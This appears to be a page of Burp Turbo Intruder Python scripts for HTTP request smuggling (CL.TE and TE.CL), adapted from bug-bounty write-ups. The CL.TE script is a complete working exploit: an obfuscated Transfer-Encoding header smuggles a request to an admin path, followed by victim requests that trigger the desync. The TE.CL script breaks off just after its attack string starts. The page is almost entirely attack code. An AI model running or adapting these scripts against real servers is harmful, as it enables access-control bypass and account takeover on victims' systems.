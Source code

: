 ## Turbo intruder scripts

### CL.TE

From [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)

```python
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    attack = '''POST / HTTP/1.1
 Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

    engine.queue(attack)

    victim = '''GET / HTTP/1.1
Host: xxx.com

'''
    for i in range(14):
        engine.queue(victim)
        time.sleep(0.05)

def handleResponse(req, interesting):
    table.add(req)
```

### TE.CL

From: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    attack = '''POST / HTTP/1.1
```